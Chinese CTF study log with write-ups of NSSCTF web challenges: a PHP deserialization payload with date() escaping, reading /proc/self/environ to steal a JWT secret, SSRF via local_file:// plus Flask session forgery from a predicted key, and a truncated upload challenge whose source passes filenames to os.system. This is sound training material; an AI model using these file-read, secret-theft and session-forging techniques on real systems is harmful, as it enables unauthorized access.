# 2025-01-24题单

## 今日主题关键词

提高, Web, 代码审计, Cookie, 反序列化

## 今日题目

- [x] 15金币 [CISCN 2023 华北]ez_date https://www.nssctf.cn/problem/4096
- [x] 20金币 [GHCTF 2024 新生赛]理想国 https://www.nssctf.cn/problem/5145
- [x] 20金币 [CISCN 2019华东南]Web4 https://www.nssctf.cn/problem/6
- [ ] 15金币 [CISCN 2023 华北]pysym https://www.nssctf.cn/problem/4098

## 题解

### [CISCN 2023 华北]ez_date

#### 题目描述

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
    public function __wakeup()
    {
        if(is_array($this->a)||is_array($this->b)){
            die('no array');
        }
        if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            $content=date($this->file);
            $uuid=uniqid().'.txt';
            file_put_contents($uuid,$content);
            $data=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($uuid));
            echo file_get_contents($data);
        }
        else{
            die();
        }
    }
}

unserialize(base64_decode($_GET['code']));
```

#### 题解

1. 首先我们解读一下这个代码

```php
<?php
error_reporting(0);/*关闭 PHP 的错误报告，这样在脚本
执行过程中不会显示任何错误信息。*/
highlight_file(__FILE__);/*以语法高亮的形式输出
当前文件的内容，通常用于调试或查看代码结构。*/
class date{  //定义了一个名为date的类。
    public $a;
    public $b;
    public $file; /*在类中定义了三个公共属性，可以
    在类的任何地方被访问和修改。*/
    public function __wakeup()/*定义了魔术方法__wakeup，当对象被
    反序列化时会自动调用这个方法。*/
    {
        if(is_array($this->a)||is_array($this->b)){
            die('no array');/*检查属性$a和$b是否为数组，如果其中
            任何一个是数组，则输出no array并终止脚本执行。*/
        }
        if( ($this->a !== $this->b) && (md5($this->a) === 
        md5($this->b)) && (sha1($this->a)=== 
        sha1($this->b)) ){  /*确保$a和$b的值不相等。
        检查$a和$b经过 MD5 哈希后的结果是否相等。检查$a
        和$b经过 SHA1 哈希后的结果是否相等，如果这些条
        件都满足，则执行后续代码*/
            $content=date($this->file);
            $uuid=uniqid().'.txt';/*生成一个唯一的 ID，
            并加上.txt后缀，用于创建一个临时文件名*/
            file_put_contents($uuid,$content);/*将$content的
            内容写入到以$uuid命名的文件中。*/
            $data=preg_replace('/((\s)*(\n)+(\s)*)/  
            i','',file_get_contents($uuid));/*
    读取刚刚创建的文件内容，然后使用正则
    表达式去除文件内容中的空白字符
    （包括空格、换行和制表符等），
    并将处理后的结果赋值给$data。*/

            echo file_get_contents($data);/*尝试读取$data所代表
            的文件内容并输出到页面上。如果$data不是
            一个有效的文件名，可能会导致错误。*/
        }
        else{
            die();
        }
    }
}

unserialize(base64_decode($_GET['code'])); /*从 URL 参数code
中获取值，先进行 Base64 解码，然后对解码后的
字符串进行反序列化操作，尝试创建一个date类的对象。*/
```

2. 分析题目

- 题目要求我们传入一个 date 类的对象，使得 __wakeup() 方法自动执行，从而触发前述逻辑。
- 也就是说，我们需要构造一个 date 类的对象，使得 $a 和 $b 满足哈希碰撞条件，并且 $file 指向一个可读取的文件。

3. 构造 payload

- 我们可以构造一个 date 类的对象，使得 $a 和 $b 满足哈希碰撞条件，并且 $file 指向一个可读取的文件,这里我们选择读取 flag.txt 文件。

```php
<?php
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
}
$q=new date();
$q->a=1;
$q->b='1';
#这里直接让a=1，b='1'，就可以绕过三个条件，这俩md5和sha1都是一样的
$q->file='/f\l\a\g';
echo base64_encode(serialize($q));
?>
```

- date()会把特定字符格式化为当前时间戳，比如这里，把l换成了星期四Thursday a 换成了pm g换成了时间11

- 解决方法:转义字符\绕过: /f\l\a\g

4. 在线运行这个payload



5. 将得到的base64编码的payload通过code传入题目url中

`http://node5.anna.nssctf.cn:20114//?code=Tzo0OiJkYXRlIjozOntzOjE6ImEiO2k6MTtzOjE6ImIiO3M6MToiMSI7czo0OiJmaWxlIjtzOjg6Ii9mXGxcYVxnIjt9`

6. 得到flag



#### 答案

```
NSSCTF{d02bb312-a2be-4a65-b8d4-67032efcc78e}
```

### [GHCTF 2024 新生赛]理想国

#### 题目描述

```json
{
  "swagger": "2.0",
  "info": {
    "description": "Interface API Documentation",
    "version": "1.1",
    "title": "Interface API"
  },
  "paths": {
    "/api-base/v0/register": {
      "post": {
        "consumes": [
          "application/json"
        ],
        "summary": "User Registration API",
        "description": "Used for user registration",
        "parameters": [
          {
            "username": "body",
            "in": "body",
            "required": true,
            "schema": {
              "$ref": "#/definitions/UserRegistration"
            }
          },
          {
            "password": "body",
            "in": "body",
            "required": true,
            "schema": {
              "$ref": "#/definitions/UserRegistration"
            }
          }
        ],
        "responses": {
          "200": {
            "description": "success"
          },
          "400": {
            "description": "Invalid request parameters"
          },
          "401": {
            "description": "Your wisdom is not sufficient to be called a sage"
          }
        }
      }
    },
    "/api-base/v0/login": {
      "post": {
        "consumes": [
          "application/json"
        ],
        "summary": "User Login API",
        "description": "Used for user login",
        "parameters": [
          {
            "username": "body",
            "in": "body",
            "required": true,
            "schema": {
              "$ref": "#/definitions/UserLogin"
            }
          },
          {
            "password": "body",
            "in": "body",
            "required": true,
            "schema": {
              "$ref": "#/definitions/UserLogin"
            }
          }
        ],
        "responses": {
          "200": {
            "description": "success"
          },
          "400": {
            "description": "Invalid request parameters"
          }
        }
      }
    },
    "/api-base/v0/search": {
      "get": {
        "summary": "Information Query API",
        "description": "Used to query information",
        "parameters": [
          {
            "name": "file",
            "in": "query",
            "required": true,
            "type": "string"
          }
        ],
        "responses": {
          "200": {
            "description": "success"
          },
          "400": {
            "description": "Invalid request parameters"
          },
          "401": {
            "description": "Unauthorized"
          },
          "404": {
            "description": "File not found"
          }
        },
        "security": [
          {
            "TokenAuth": []
          }
        ]
      }
    },
    "/api-base/v0/logout": {
      "get": {
        "summary": "Logout API",
        "description": "Used for user logout",
        "responses": {
          "200": {
            "description": "success"
          },
          "401": {
            "description": "Unauthorized"
          }
        },
        "security": [
          {
            "TokenAuth": []
          }
        ]
      }
    }
  },
  "definitions": {
    "UserRegistration": {
      "type": "object",
      "properties": {
        "username": {
          "type": "string"
        },
        "password": {
          "type": "string"
        }
      }
    },
    "UserLogin": {
      "type": "object",
      "properties": {
        "username": {
          "type": "string"
        },
        "password": {
          "type": "string"
        }
      }
    }
  },
  "securityDefinitions": {
    "TokenAuth": {
      "type": "apiKey",
      "name": "Authorization",
      "in": "header"
    }
  },
  "security": [
    {
      "TokenAuth": []
    }
  ]
}
```

#### 题解

1. 首先我们分析一下这个json文件

- 这个json文件定义了一个API接口，用于用户注册、登录、查询信息和注销。
- 其中，用户注册和登录需要提供用户名和密码，查询信息需要提供文件名，注销不需要提供任何信息。
- 这个API接口使用了JWT（JSON Web Token）进行身份验证，需要提供一个TokenAuth头。

2. 由于不知道怎么使用接口，查询资料可知，可以使用postman来测试接口

- 注册用户,用`POST`给`http://node6.anna.nssctf.cn:20155/api-base/v0/register`发送json数据

```json
{
  "username": "admin",
  "password": "123"
}
```



- 登录用户,用`POST`给`http://node6.anna.nssctf.cn:20155/api-base/v0/login`发送json数据,然后发现返回了一个token。

```json
{
  "username": "admin",
  "password": "123"
}
```



- 查询信息,用`GET`给`http://node6.anna.nssctf.cn:20155/api-base/v0/search?file=flag.txt`发送请求,发现无这个文件，因此我们尝试查看源代码。用`GET`给`http://node6.anna.nssctf.cn:20155/api-base/v0/search?file=/app/app.py`发送请求,发现源代码。

```python
# coding=gbk
import json
from flask import Flask, request, jsonify, send_file, render_template_string
import jwt
import requests
from functools import wraps
from datetime import datetime
import os

app = Flask(__name__)
app.config['TEMPLATES_RELOAD'] = True
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY')
current_time = datetime.now().strftime('%Y-%m-%d %H:%M:%S')

response0 = {'code': 0, 'message': 'failed', 'result': None}
response1 = {'code': 1, 'message': 'success', 'result': current_time}
response2 = {'code': 2, 'message': 'Invalid request parameters', 'result': None}

def auth(func):
@wraps(func)
def decorated(*args, **kwargs):
token = request.cookies.get('token')
if not token:
return 'Invalid token', 401
try:
payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
if payload['username'] == User.username and payload['password'] == User.password:
return func(*args, **kwargs)
else:
return 'Invalid token', 401
except:
return 'Something error?', 500
return decorated

def check(func):
@wraps(func)
def decorated(*args, **kwargs):
token = request.cookies.get('token')
if not token:
return 'Invalid token', 401
try:
payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
if payload['username'] == "Plato" and payload['password'] == "ideal_state":
return func(*args, **kwargs)
else:
return 'You are not a sage. You cannot enter the ideal state.', 401
except:
return 'Something error?', 500
return decorated

@app.route('/', methods=['GET'])
def index():
return send_file('api-docs.json', mimetype='application/json;charset=utf-8')

@app.route('/enterIdealState', methods=['GET'])
@check
def getflag():
flag = os.popen("/readflag").read()
return flag

@app.route('/api-base/v0/register', methods=['GET', 'POST'])
def register():
if request.method == 'POST':
username = request.json['username']
if username == "Plato":
return 'Your wisdom is not sufficient to be called a sage.', 401
password = request.json['password']
User.setUser(username, password)
token = jwt.encode({'username': username, 'password': password}, app.config['SECRET_KEY'], algorithm='HS256')
User.setToken(token)
return jsonify(response1)
return jsonify(response2), 400

@app.route('/api-base/v0/login', methods=['GET', 'POST'])
def login():
if request.method == 'POST':
username = request.json['username']
password = request.json['password']
try:
token = User.token
payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
if payload['username'] == username and payload['password'] == password:
response = jsonify(response1)
response.set_cookie('token', token)
return response
else:
return jsonify(response0), 401
except jwt.ExpiredSignatureError:
return 'Invalid token', 401
except jwt.InvalidTokenError:
return 'Invalid token', 401
return jsonify(response2), 400

@app.route('/api-base/v0/logout')
def logout():
response = jsonify({'message': 'Logout successful!'})
response.delete_cookie('token')
return response

@app.route('/api-base/v0/search', methods=['POST', 'GET'])
@auth
def api():
if request.args.get('file'):
try:
with open(request.args.get('file'), 'r') as file:
data = file.read()
return render_template_string(data)

except FileNotFoundError:
return 'File not found', 404
except jwt.ExpiredSignatureError:
return 'Invalid token', 401
except jwt.InvalidTokenError:
return 'Invalid token', 401
except Exception:
return 'something error?', 500
else:
return jsonify(response2)

class MemUser:
def setUser(self, username, password):
self.username = username
self.password = password

def setToken(self, token):
self.token = token

def __init__(self):
self.username = "admin"
self.password = "password"
self.token = jwt.encode({'username': self.username, 'password': self.password}, app.config['SECRET_KEY'],
algorithm='HS256')

if __name__ == '__main__':
User = MemUser()
app.run(host='0.0.0.0', port=8080)
```

- 接着我们发现最终得到flag需要访问`enterIdealState`路由

```py
@app.route('/enterIdealState', methods=['GET'])
@check
def getflag():
flag = os.popen("/readflag").read()
return flag
```



- 我们查看源代码知道我们需要构造的`payload`结构,我们发现payload的username和password需要满足`Plato`和`ideal_state`。

```python
def check(func):
@wraps(func)
def decorated(*args, **kwargs):
token = request.cookies.get('token')
if not token:
return 'Invalid token', 401
try:
payload = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
if payload['username'] == "Plato" and payload['password'] == "ideal_state":
return func(*args, **kwargs)
else:
return 'You are not a sage. You cannot enter the ideal state.', 401
except:
return 'Something error?', 500
return decorated
```

- 接下来我们去jwt.io网站进行构造，但是我们发现还需要一个Secret_key，因此我们读取环境变量配置文件。

```
http://node6.anna.nssctf.cn:23779/api-base/v0/search?file=/proc/self/environ
```





- 最后我们修改cookie访问enterIdealState，得到flag



#### 答案

```
NSSCTF{3ae1c597-6f1a-4cb0-859c-a0e19188be57}
```

### [CISCN 2019华东南]Web4

#### 题目描述



#### 题解

- 首先我们点开这个链接

```
http://node4.anna.nssctf.cn:28144/read?url=https://baidu.com
```

- 发现是百度，但是这个形式十分奇怪，并不是传统的跳转，因此查阅使用`flask`框架，尝试`local_file:///`的方式读取文件



- 因此我们直接读取其源代码

```
http://node4.anna.nssctf.cn:28144/read?url=local_file:///app/app.py
```



- 发现py代码

```python
# encoding:utf-8 
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! Read somethings'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
        return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

- 发现`flag`路由需要`session`和`session['username']`满足`fuck`，因此我们尝试伪造session，session的构造方式在源代码中已经给出。

```python
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
```

- 对于伪随机数，如果seed是固定的，生成的随机数是可以预测的，也就是顺序固定的，所以只要知道seed的值即可。这里的seed使用的uuid.getnode()的值，该函数用于获取Mac地址并将其转换为整数。

- 那么就需要读取Mac地址local_file:///sys/class/net/eth0/address



```
02:42:ac:02:fe:64
```

- 然后我们使用python得到密钥

```python
>>> import random
>>> random.seed(0x0242ac02fe64)
>>> print(str(random.random()*233))
41.95403334953624
```

- 然后利用Flask-Session脚本解密

```
https://github.com/noraj/flask-session-cookie-manager
```

- 我们在网站上取得session后放到脚本中运行，我们上面得出的密钥是py3得出来的结果，但是跑出来会报错，因此用py2跑出来的密钥进行操作即可



```python
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Z7WPug.uOXqvm0Zkm8mCg42ri479FAQxUw' -s '41.9540333495'
```



- 接着我们用脚本进行encode

```python
python3 flask_session_cookie_manager3.py encode -s '41.9540333495' -t "{'username': b'fuck'}"
```



- 然后我们把cookie放到session中，访问flag路由，得到flag



#### 答案

```
NSSCTF{bec99218-b9c5-4976-a32e-b7c21f306067}
```

### [CISCN 2023 华北]pysym

#### 题目描述

网站源代码

```python
from flask import Flask, render_template, request, send_from_directory
import os
import random
import string
app = Flask(__name__)
app.config['UPLOAD_FOLDER']='uploads'	#上传路径是'uploads'
@app.route('/', methods=['GET'])	#定义一个路由，用来处理GET请求，常用来显示上传页面
def index():	#定义index函数，用于渲染index.html模板
    return render_template('index.html')	#render_template 函数用于渲染模板文件并将其发送到客户端。
@app.route('/',methods=['POST'])	#定义一个路由，用来处理POST请求，用于处理文件上传和解压缩
def POST():	#定义了一个POST()函数
    if 'file' not in request.files:	#检查请求中是否包含文件，没有就返回'No file uploaded.'
        return 'No file uploaded.'
    file = request.files['file']	#获取上传的文件，检查文件大小是否超过10240，如果超过就返回'file too lager'
    if file.content_length > 10240:
        return 'file too lager'
    path = ''.join(random.choices(string.hexdigits, k=16))	#使用random.choices函数在string.hexdigits这个包含十六进制数字和字母的字符串中随机选择字符生成一个16位的字符串，并赋值给path变量
    directory = os.path.join(app.config['UPLOAD_FOLDER'], path)	#使用os.path.join函数，拼接app.config['UPLOAD_FOLDER']和path，这里的app.config['UPLOAD_FOLDER']'='uploads'，并赋值给directory变量，在这里directory是上传文件的路径
    os.makedirs(directory, mode=0o755, exist_ok=True)	#使用os.makedirs函数，创建一个目录，目录名是变量directory的值，并给权限755，如果已经存在相同的目录，则不抛出异常
    savepath=os.path.join(directory, file.filename)	#使用os.path.join函数，拼接directory和file.filename的内容，并赋值给savepath变量，file.filename是上传的文件名，在这里savepath是拼接后的文件保存路径，即上传目录路径和文件名的组合
    file.save(savepath)	#将上传的文件保存到指定路径，在这里路径是变量savepath的内容
    try:
     os.system('tar --absolute-names  -xvf {} -C {}'.format(savepath,directory))	#调用系统命令来解压缩上传的文件到指定目录中，在这里文件的变量savepath的内容，目录是变量directory的内容，举例：'savepath=C:\Users\杨\Desktop\1.txt','directory=C:\Users\杨\Desktop'
    except:
        return 'something wrong in extracting'	#否则输出'something wrong in extracting'

##29行代码到40行代码作用：遍历上传的文件夹，检查其中的文件是否是符号链接或目录，然后将非符号链接文件的路径存储在 links 列表中，并将这些文件的路径传递给模板 index.html 以便在页面上显示这些文件的链接
    
    links = []	#创建一个空列表 links，用于存储文件路径
    for root, dirs, files in os.walk(directory):	#使用os.walk()函数遍历指定目录directory及其子目录中的所有文件和文件夹，root是当前目录，dirs是当前目录的所有子目录，files是当前目录中的所有文件
        for name in files:	#遍历当前目录中的所有文件
            extractedfile =os.path.join(root, name)	#使用os.path.join函数拼接，当前目录和文件名，并赋值给extractedfile变量
            if os.path.islink(extractedfile):	#使用os.path.islink函数判断extractedfile变量，如果extractedfile变量是软链接就删除extractedfile，然后返回'no symlink'
